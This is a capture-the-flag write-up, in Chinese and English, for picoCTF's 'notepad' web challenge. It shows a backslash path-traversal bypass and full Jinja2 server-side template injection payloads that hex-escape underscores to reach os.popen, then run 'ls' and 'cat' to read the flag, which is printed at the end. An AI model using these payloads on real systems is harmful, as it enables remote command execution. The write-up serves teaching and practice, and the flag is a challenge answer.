

# notepad

## 題目描述 (Description)

This note-taking site seems a bit off.
[notepad.mars.picoctf.net](https://notepad.mars.picoctf.net/)

### 提示 (Hints)

(None)

## 解題思路 (Solution Walkthrough)

1. **第一步**：先看程式碼，有幾個有趣的地方
    1. `index.html` 裡面，最底下字串拼接的部分可以透過一些方式可以載入原本不預期被載入的東西

        ```html
        <!doctype html>
        
            <h3>
                error: {{ error }}
            </h3>
            
        
        <h2>make a new note</h2>
        <form action="/new" method="POST">
            <textarea name="content"></textarea>
            <input type="submit">
        </form>
        ```

    2. `app.py` 裡面，他雖然會檢查內容是否包含 `_` 及 `/`，但是並沒有封鎖 `\`，而且在後面會使用 url_fix，於是便有了路徑遍歷的漏洞

        ```py
        if "_" in content or "/" in content:
            return redirect(url_for("index", error="bad_content"))
        if len(content) > 512:
            return redirect(url_for("index", error="long_content", len=len(content)))
        name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
        ```

2. **第二步**：於是我們可以先輸入 `..\templates\errors\abc`，接著網頁會跳轉到 `/templates/errors/abc-t4-h0TcPxdw.html`，不過當我們訪問 `/?error=abc-t4-h0TcPxdw` 時，因為 `index.html` 設計方式導致會載入 `/templates/errors/abc-t4-h0TcPxdw.html`，進而顯示 `/templates/errors/abc-t4-h0TcPxdw.html` 裡面的內容

3. **第三步**：接著注意到 `app.py` 裡面檔案取名的方式，他只會取到 128 位而已，我們可以利用這個特性來使用 SSTI (原本的方式會造成部份符號被 urlencode，導致伺服器判斷的名稱和檔名不一樣)

    1. 參考 `Dockerfile` 可以看到 `app.py` 運行的地方在 `/app` 裡面
    2. 於是我們可以使用 `..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\app\templates\errors\ssti{{'阿公67'*10}}`，結果應和圖片中的一樣
    

4. **第四步**：接著參考一下 `Dockerfile`，可以看到 `flag` 位於 `/app` 裡面，但是還會被改名成 `flag-randomUUID.txt` (此處 randomUUID 為隨機的 uuid)

    1. 我們可以先使用 `ls` 來列出所有檔案，查看 flag 所在的檔案 `..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\app\templates\errors\ssti{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}`
    2. 得知檔名後，接著使用 `..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\app\templates\errors\ssti{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt')|attr('read')()}}`，即可得到 flag

## Flag

```text
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```
